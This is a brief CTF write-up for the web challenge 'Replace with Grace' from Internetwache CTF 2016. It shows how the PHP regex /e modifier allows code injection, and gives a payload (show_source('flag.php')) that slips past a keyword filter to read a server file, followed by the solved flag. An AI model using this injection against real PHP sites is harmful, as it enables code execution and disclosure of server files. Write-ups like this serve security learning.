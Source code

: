 ```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```

The problem was, that the website filtered some inputs like:
* file
* open

It worked with:

```php
var_dump(show_source('flag.php'));
```

A simple, but nice challenge.
```
IW{R3Pl4c3_N0t_S4F3}
```
